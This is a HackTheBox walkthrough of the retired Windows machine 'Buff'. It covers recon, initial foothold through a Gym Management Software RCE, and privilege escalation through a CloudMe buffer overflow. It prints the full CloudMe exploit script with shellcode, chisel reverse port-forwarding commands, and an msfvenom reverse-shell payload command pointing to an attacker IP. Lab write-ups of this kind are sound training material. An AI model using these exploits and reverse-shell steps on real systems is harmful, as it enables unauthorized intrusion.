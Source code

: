 ```yaml
---
title: Buff - HackTheBox Walkthrough
author: Degr4ne
date: 2021-10-18 12:00:00 
categories: [HackTheBox,Windows]
tags: [rce,chisel]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Buff/00-banner.png
  width: 589
  height: 363
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Buff` a retired windows machine by HackTheBox rated easy. Without further ado, let’s begin.

# Recon
## Nmap Scan

As always we'll start with a nmap scan to discover the open ports and services.

```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Wed Oct 13 14:15:31 2021 as: nmap -sC -sV -v -Pn -oN nmap-scan 10.129.2.18
Nmap scan report for 10.129.2.18
Host is up (0.22s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

The only port open is running HTTP, let´s check it out.

## HTTP Enumeration

![01-web](/assets/img/HTB/Buff/01-web.png)

Is a web site for a gym, the interesting thing is in `/contact.php`, it says that this site is using `Gym Management Software 1.0`

![02-web](/assets/img/HTB/Buff/02-web.png)

Searching this info on `searchsploit` I found this [RCE](https://www.exploit-db.com/exploits/48506)

![03-rce](/assets/img/HTB/Buff/03-rce.png)

# Initial Foothold

The exploit send a new request every time we send a command that's why we can't move from directory.
Upload a netcat on the victim machine and execute it, like the screenshot below.

![04-python](/assets/img/HTB/Buff/04-python.png)

`rlwrap` gives us access to history

```console
$ sudo apt install rlwrap
```
# Privilage Escalation

I could find a executable file named `CloudMe_1112.exe` inside shaun's downloads directory.

![05-cloudme](/assets/img/HTB/Buff/05-cloudme.png)

And this executable is vulnerable to a Buffer Oveflow

![06-cloudme](/assets/img/HTB/Buff/06-cloudme.png)

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload    = b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
payload   += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
payload   += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
payload   += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
payload   += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
payload   += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
payload   += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
payload   += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
payload   += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
payload   += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
payload   += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
payload   += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
payload   += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
payload   += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
payload   += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
payload   += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
payload   += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)

```

Looking the code of the exploit, the script connect to a port that we don't have access to it.

![07-port](/assets/img/HTB/Buff/07-port.png)

It seems that we will have to make a remote port forwarding using [chisel](https://github.com/jpillora/chisel/releases), we need one binary for our linux and the other to the Windows machine.

![08-chisel](/assets/img/HTB/Buff/08-chisel.png)

```console
$ gunzip -d chisel_1.7.6*
$ mv chisel_1.7.6_windows_amd64 chisel.exe
$ mv chisel_1.7.6_linux_amd64 chisel
$ chmod +x chisel
```

Once we get the binaries just send the .exe to the vulnerable machine.
Execute this command in attacker machine
```console
$ ./chisel server --reverse --port 1234
```
and this in the victim machine
```console
$ ./chisel client <ipA>:1234 R:8888:localhost:8888
```

![09-chisel](/assets/img/HTB/Buff/09-chisel.png)

To get a shell we need change the payload of the exploit.

```console
$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.70 LPORT=443 -b '\x00\x0A\x0D' -f python
```

![10-payload](/assets/img/HTB/Buff/10-payload.png)

Start a netcat listener on port 443 and run the exploit.

![11-root](/assets/img/HTB/Buff/11-root.png)

We got root.txt
That’s it for now guys. Until next time.
